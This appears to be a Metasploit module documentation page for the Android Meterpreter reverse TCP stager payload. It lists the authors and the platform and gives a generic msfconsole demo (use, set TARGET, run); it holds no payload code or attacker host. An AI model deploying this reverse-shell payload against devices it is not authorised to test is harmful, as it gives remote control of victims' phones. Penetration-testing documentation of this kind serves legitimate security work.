 ## Android Meterpreter, Dalvik Reverse TCP Stager

Run a meterpreter server on Android. Connect back stager


## Module Name
payload/android/meterpreter/reverse_tcp

## Authors
* mihi
* egypt
* anwarelmakrahy
* OJ Reeves
* timwr





## Platforms
* android

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/android/meterpreter/reverse_tcp
msf payload(reverse_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_tcp) > set TARGET <target-id>
msf payload(reverse_tcp) > show options
   ... show and set options ...
msf payload(reverse_tcp) > run
```
    
    